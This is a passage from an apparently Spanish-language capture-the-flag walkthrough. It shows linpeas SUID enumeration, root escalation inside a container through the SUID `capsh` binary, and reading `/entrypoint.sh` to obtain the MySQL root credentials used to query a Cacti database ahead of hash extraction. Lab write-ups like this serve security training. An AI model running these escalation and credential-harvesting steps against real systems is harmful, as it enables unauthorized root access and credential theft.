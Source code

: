 ```bash
-rwsr-xr-x 1 root root 31K Oct 14  2020 /sbin/capsh  # ./capsh --gid=0 --uid=0 --
-rwsr-xr-x 1 root root 55K Jan 20  2022 /bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 35K Jan 20  2022 /bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 71K Jan 20  2022 /bin/su
``` 

La enumeración realizada por `linpeas.sh` indica que la shell se esta ejecutando en un contenedor, ademas de esto tambien existe un binario con SUID el cual nos permite escalar privilegios facilmente.

```bash
www-data@50bca5e748b0:/sbin$ /sbin/capsh --gid=0 --uid=0 --
/sbin/capsh --gid=0 --uid=0 --

whoami
root
```

### Extracción y crackeo de hashes 

Si leemos el contenido de `/entrypoint.sh` podremos observar unas cuantas instrucciones que se ejecutan en una base de datos llamada `cacti`.

```bash
cat /entrypoint.sh
-----------------------
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
	set -- apache2-foreground "$@"
fi
-----------------------
```

Podemos utilizar la información anterior para ejecutar comandos en la base de datos de la siguiente forma:

```bash
# mysql --host=db --user=root --password=root cacti -e "show TABLES;"
...
user_auth
user_auth_cache
user_auth_group
user_auth_group_members
user_auth_group_perms
user_auth_group_realm
user_auth_perms
user_auth_realm
user_domains
user_domains_ldap
user_log
...

```